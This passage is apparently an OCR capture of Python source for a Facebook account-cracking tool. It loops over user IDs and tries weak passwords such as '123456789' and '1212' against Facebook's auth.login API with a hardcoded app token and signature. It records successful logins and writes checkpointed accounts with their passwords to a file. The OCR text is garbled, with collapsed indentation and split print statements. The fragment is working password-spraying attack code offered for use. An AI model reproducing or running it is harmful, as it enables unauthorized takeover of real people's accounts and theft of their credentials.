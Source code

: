 '\n\x1b[1;92m╔[Very.GOOD] \x1b[1;92m ' + '\n║ID: ' + user  + '\n║PASS: ' + pass7 + '\n╚Name: ' + b['name']                                                                 oks.append(user+pass7)                                                             else:                                                                 if 'www.facebook.com' in q["error_msg"]:                                                                     print '\n\x1b[1;36;40m╔[sorry.CHECKPOINT] \x1b[1;97m ' + '\n║ID: ' + user  + '\n║PASS: ' + pass7 + '\n╚Name: ' + b['name']                                                                     cek = open("out/CP.txt", "a")                                                                     cek.write(user+"|"+pass7+"\n")                                                                     cek.close()                                                                     cekpoint.append(user+pass7)                                                                 else:                                                                     pass8 = ' 123456789'                                                                     data = urllib.urlopen(                                                                         "https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=" + (                                                                             user) + "&amp;locale=en_US&amp;password=" + (                                                                             pass8) + "&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6")                                                                     q = json.load(data)                                                                     if 'access_token' in q:                                                                         print                                                                         '\n\x1b[1;92m╔[Very.GOOD] \x1b[1;92m ' + '\n║ID: ' + user + '\n║PASS: ' + pass8 + '\n╚Name: ' + \                                                                         b['name']                                                                         oks.append(user + pass8)                                                                     else:                                                                         if 'www.facebook.com' in q["error_msg"]:                                                                             print                                                                             '\n\x1b[1;36;40m╔[sorry.CHECKPOINT] \x1b[1;97m ' + '\n║ID: ' + user + '\n║PASS: ' + pass8 + '\n╚Name: ' + \                                                                             b['name']                                                                             cek = open("out/CP.txt", "a")                                                                             cek.write(user + "|" + pass8 + "\n")                                                                             cek.close()                                                                             cekpoint.append(user + pass8)                                                                         else:                                                                             pass9 = '1212'                                                                             data = urllib.urlopen(                                                                                 "https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=" + (                                                                                     user) + "&amp;locale=en_US&amp;password=" + (                                                                                     pass9) + "&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6")                                                                             q = json.load(data)                                                                             if 'access_token' in q:                                                                                 print                                                                                 '\n\x1b[1;92m╔[Very.GOOD] \x1b[1;92m ' + '\n║ID: ' + user + '\n║PASS: ' + pass9 + '\n╚Name: ' + \                                                                                 b['name']                                                                                 oks.append(user + pass9)                                                                             else:                                                                                 if 'www.facebook.com' in q["error_msg"]:                                                                                     print                                                                                     '\n\x1b[1;36;40m╔[sorry.CHECKPOINT] \x1b[1;97m ' + '\n║ID: ' + user + '\n║PASS: ' + pass9 + '\n╚Name: ' + \                                                                                     b['name']                                                                                     cek = open("out/CP.txt", "a")                                                                                     cek.write(user + "|" + pass9 + "\n")                                                                                     cek.close()                                                                                     cekpoint.append(user + pass9)                                                                                 else: